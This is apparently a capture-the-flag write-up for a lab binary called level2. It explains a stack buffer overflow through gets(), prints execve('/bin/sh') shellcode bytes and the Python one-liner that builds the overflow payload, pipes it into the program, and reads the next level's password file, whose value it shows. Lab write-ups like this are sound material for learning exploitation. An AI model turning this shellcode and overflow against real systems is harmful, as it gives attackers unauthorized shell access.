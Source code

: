 opening the program in a decompiler we can see it use gets which is vulnerable to a buffer overflow attack, we can use this to overwrite the return address of the function to the address of a function we put in memory, using the strdup the program is calling. (see source.c)
so basically, we will put in memory a shellcode that call execve("/bin/sh"), then we will overwrite the return address to the address of the shellcode.
[using nasm and objdump](https://dhavalkapil.com/blogs/Shellcode-Injection/) we can craft this shellcode from the assembly code in shellcode.asm :
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
the buffer is 80 char long, our shellcode 25, so we need to add 55 char to the shellcode to fill the buffer, then we need to overwrite the return address with the address of the shellcode.
launching ./level2 with `ltrace` we can see that the address of the shellcode is `0x0804a008`, so we add the address after the overflow so that the flow of the program goes to this the address where our shellcode has been copied.

`python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "a"\*55 + "\x08\xa0\x04\x08"' > /tmp/a`
`cat /tmp/a - | ./level2`
and boom we can launch command as level3.
`cat /home/user/level3/.pass` -> `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`

sources :
https://dhavalkapil.com/blogs/Shellcode-Injection/
